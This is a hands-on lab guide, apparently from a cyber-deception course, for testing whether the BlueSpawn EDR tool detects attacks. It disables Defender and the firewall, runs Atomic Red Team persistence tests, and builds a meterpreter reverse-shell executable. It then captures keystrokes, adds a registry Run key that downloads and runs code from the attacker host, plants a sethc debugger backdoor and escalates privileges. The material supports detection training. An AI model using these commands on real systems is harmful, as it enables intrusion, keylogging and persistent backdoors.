

---

This is a lab from **John Strand**'s **Active Defense and Cyber Deception** Course:

https://www.antisyphontraining.com/product/active-defense-and-cyber-deception-with-john-strand/

---

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.


Next, run the following commands:

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

```ps
Set-MpPreference -DisableBehaviorMonitoring $true
```


This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a **command prompt**:


 
Next, let’s change directories to tools and start Bluespawn:

```bash
cd \IntroLabs
```

```bash
BLUESPAWN-client-x64.exe --monitor --aggressiveness cursory
```

You should see something like this:


If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar/desktop:


Now we need to install and update Atomic Red Team. Run the following:

```bash
cd \
```

```ps
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force
```

>[!NOTE]
>
> This can take a bit. After about 120 seconds, try hitting enter to get your prompt back.

Once you see the following, you are set to move forward:


Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

```ps
cd C:\AtomicRedTeam\invoke-atomicredteam\
```

Then, install the proper `yaml` modules by running the following:

```ps
Install-Module -Name powershell-yaml
```

>[!NOTE]
>
>When prompted, press Y to install the modules.

```ps
Import-Module .\Invoke-AtomicRedTeam.psm1
```


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually. The test selections below were chosen to demonstrate several persistence
techniques while avoiding Atomic tests that are unstable with BLUESPAWN monitor mode in this lab environment:

```ps
Invoke-AtomicTest T1547.004
```

More information here:

https://attack.mitre.org/techniques/T1547/004/

```ps
Invoke-AtomicTest T1543.003
```

More information here:

https://attack.mitre.org/techniques/T1543/003/

You can also specify which tests you want to run:

```ps
Invoke-AtomicTest T1547.001 -TestNumbers 1,9,11,12
```

Each test uses a different mechanism : 

- 1 - Registry Run key
- 7 - Executable shortcut in the Startup folder
- 9 - SystemBC through registry type Persistence
- 11 - Using User Shell Folders to modify the Startup path

More information here:

https://attack.mitre.org/techniques/T1547/001/


```ps
Invoke-AtomicTest T1546.008 -TestNumbers 1
```

More information here:

https://attack.mitre.org/techniques/T1546/008/


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:


>[!NOTE]
>
>There might be some errors when this runs. This is normal.

> [!IMPORTANT]
>
> The Atomic Red Team commands in this lab have already been updated to use
> the current MITRE ATT&CK technique and sub-technique IDs.
>
> The updated BLUESPAWN release also uses the current ATT&CK technique names.
>
> The official MITRE ATT&CK sub-technique crosswalk is available here for
> historical reference:
>
> https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:


Now, let’s go back to the PowerShell window and clean up:

```ps
Invoke-AtomicTest T1547.004 -Cleanup
Invoke-AtomicTest T1543.003 -Cleanup
Invoke-AtomicTest T1547.001 -TestNumbers 1,9,11,12 -Cleanup
Invoke-AtomicTest T1546.008 -TestNumbers 1 -Cleanup
```

> [!NOTE]
>
> The cleanup for `T1547.004-3` may time out after 120 seconds.
> This test uses the legacy Winlogon Notify persistence mechanism, which is not
> supported on modern Windows versions.
>
> The timeout does not prevent the remaining cleanup tests from continuing.

It should look like this:


# If you have more time

Let’s begin by disabling **Defender**. Simply run the following from an **Administrator PowerShell** prompt:


Next, run the following command in the **Powershell** terminal:

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```


This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Open **Command Prompt**


Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

```cmd
netsh advfirewall set allprofiles state off
```

Next, set a password for the Administrator account that you can remember

```bash
net user Administrator password1234
```

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Let's continue by opening an **Ubuntu** terminal


Become root:

```bash
sudo su -
```

Before we run the next commands, we need to get the **IP** of our **Linux System**. Lets do so by running the following:

```bash
ifconfig
```


**REMEMBER: YOUR IP WILL BE DIFFERENT**

Run the following commands to start a simple backdoor and backdoor listener: 

```bash
cd /tmp/
```


Run the following commands to start a simple backdoor and backdoor listener: 

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe > /tmp/TrustMe.exe
```


Now let's start the **Metasploit** Handler

```bash
msfconsole -q
```

We are going to run the following commands to correctly set the parameters:

```bash
use exploit/multi/handler
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

```bash
set LHOST [Your Linux IP Address]
```

Remember, **Your IP will be different!**

```bash
exploit
```

It should look like this:


Open up a **Powershell** terminal, copy the file over from **Linux**

```ps
cd .\Desktop\
```

```ps
scp ubuntu@linux.cloudlab.lan:/tmp/TrustMe.exe .
```

Open a **Command Prompt**


Let's run the following commands to run the **"TrustMe.exe"** file.

```cmd
cd \Users\Administrator\Desktop
```
 
Then run it with the following:

```cmd
TrustMe.exe
```

Back at your Ubuntu terminal, you should have a metasploit session!


Now, let’s look at keystroke logging.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1056/

Also, below is a list of just some of the threat groups that use this technique:


Run commands

meterpreter > `keyscan_start`

Go and type something on your Windows system.

meterpreter > `keyscan_dump`




Go and check Bluespawn.  Did it detect it?

Now, let’s play with registry persistence.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1547/

Here are just some of the groups that use this technique:


meterpreter > `shell`

C:\Users\Administrator\Desktop> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://[Your Linux IP Address]:80/a'))\"" /f`

C:\Users\Administrator\Desktop> `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`


Go and check Bluespawn.  Did it detect it?

Next, let’s play with privilege escalation.

Here is al link to more info about this from MITRE:

https://attack.mitre.org/techniques/T1543/

Here are just some of the groups that use this technique:


meterpreter >`getsystem`


Go and check Bluespawn.  Did it detect it?

***                                                                 
<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---


